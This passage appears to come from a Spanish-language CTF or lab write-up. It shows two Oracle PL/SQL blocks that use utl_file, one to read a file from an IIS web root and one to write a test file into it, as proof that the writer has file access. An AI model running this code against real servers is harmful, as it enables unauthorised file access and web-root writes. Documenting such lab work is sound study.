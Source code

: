#### Ejecución

Oracle ocupa su propia sintaxis por lo que con el siguiente pedazo de código se buscó obtener el contenido del archivo por defecto del servidor. Buscando obtener respuesta por medio del prompt configurando primeramente `set serveroutput ON` para su visualización.

```sql
declare
    f utl_file.file_type;
    s varchar(200);
begin
    f := utl_file.fopen('/inetpub/wwwroot', 'iisstart.htm', 'R');
    utl_file.get_line(f,s);
    utl_file.fclose(f);
    dbms_output.put_line(s);
end;
```

![Lectura de archivos](images/exploit_4.png)

Por otra parte se puede verificar que también exista la capacidad de escribir a un archivo, verificándolo con el siguiente segmento de código.

```sql
declare
    f utl_file.file_type;
    s varchar(5000) := 'Hello world';
begin
    f := utl_file.fopen('/inetpub/wwwroot', 'srrequiem.txt', 'W');
    utl_file.put_line(f,s);
    utl_file.fclose(f);
end;
```

![Escritura de archivos](images/exploit_5.png)
